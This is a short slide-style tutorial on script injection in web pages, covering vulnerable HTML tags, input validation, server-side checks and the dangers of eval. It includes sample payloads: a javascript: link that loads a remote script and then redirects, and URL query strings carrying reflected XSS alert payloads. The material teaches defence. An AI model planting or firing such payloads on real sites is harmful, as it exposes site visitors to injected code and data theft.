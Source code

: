 # 💉 Script injections

---

## What is a script injection and how do these happen?

**Script injection** is security vulnerability, a serious security threat that enables an attacker to inject malicious code in the user interface elements.

---

## What might be vulnerable to a script injection?

- An input field - someone could write malicious javascript or a sql query (DROP TABLES anyone?)
- HTML tags `<script>`, `<meta>`, `<html>`, `<body>`, `<embed>`, `<frame>`, `<frameset>`, `<img>`, `<style>`, `<link>`, `<object>`


---


`<a href="javascript:s=document.
createElement('script');s.src=
'http://localhost/s.js';document.body.appendChild(s);window.location=
'http://www.google.com/'">click</a>`

An attacker can load a remote script and then redirect so the link acts as a normal link

---

## Good practices


- Using a regex to validate an input

![](https://i.ibb.co/rF1BkRc/2.png)

---

- Using dropdown to prevent code injection

![](https://i.stack.imgur.com/bZqTB.jpg)

---



- Avoid only client-side JavaScript validation whenever possible, maintain these operation on the server-side instead

- When developing a web site that allows the user to upload content, you may split special HTML chars so that injected tags will not be executed


## Bad practices
- Javascript eval - this will run a string as code
```javascript=
eval('2 + 2');             // returns 4
```
- obviously a bad idea as anyone could put any code in there and run it

---

You can use the address bar to hack a site 

http://vulnerableWebApplication.com/page.php?parameters=<script>alert('xss payload');</script>

http://vulnerableWebApplication.com/page.php?parameters= <img src=javascript:alert('xss payload')/>


